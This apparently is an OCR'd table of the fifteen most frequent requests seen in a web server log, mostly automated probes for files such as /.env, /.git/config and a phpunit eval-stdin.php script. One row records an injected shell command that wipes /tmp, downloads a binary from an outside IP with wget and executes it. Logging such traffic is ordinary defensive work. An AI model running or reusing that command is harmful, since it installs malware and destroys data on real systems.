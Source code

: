 |   1 |                    58 | GET /.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                            |
|   2 |                    56 | GET / HTTP/1.0                                                                                                                                                                                                                                                                                                                                                |
|   3 |                    23 | POST / HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
|   4 |                    18 | GET /favicon.ico HTTP/1.1                                                                                                                                                                                                                                                                                                                                     |
|   5 |                     9 | GET /.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                     |
|   6 |                     7 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                                                                 |
|   7 |                     6 | \x16\x03\x02\x01o\x01\x00\x01k\x03\x02RH\xC5\x1A#\xF7:N\xDF\xE2\xB4\x82/\xFF\x09T\x9F\xA7\xC4y\xB0h\xC6\x13\x8C\xA4\x1C=\x22\xE1\x1A\x98 \x84\xB4,\x85\xAFn\xE3Y\xBBbhl\xFF(=':\xA9\x82\xD9o\xC8\xA2\xD7\x93\x98\xB4\xEF\x80\xE5\xB9\x90\x00(\xC0                                                                                                             |
|   8 |                     5 | GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                              |
|   9 |                     5 | GET /druid/index.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                |
|  10 |                     5 | GET /actuator/gateway/routes HTTP/1.1                                                                                                                                                                                                                                                                                                                         |
|  11 |                     5 | GET /ReportServer HTTP/1.1                                                                                                                                                                                                                                                                                                                                    |
|  12 |                     5 | GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1                                                                                                                                                                                                                                                                                                                  |
|  13 |                     4 | GET /t4 HTTP/1.1                                                                                                                                                                                                                                                                                                                                              |
|  14 |                     4 | GET /upl.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
|  15 |                     4 | \xFF\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xF1\x03%\x00\x00\x00{ \x22Ret\x22 : 100, \x22SessionID\x22 : \x220x0\x22 }                                                                                                                                                                                                                           |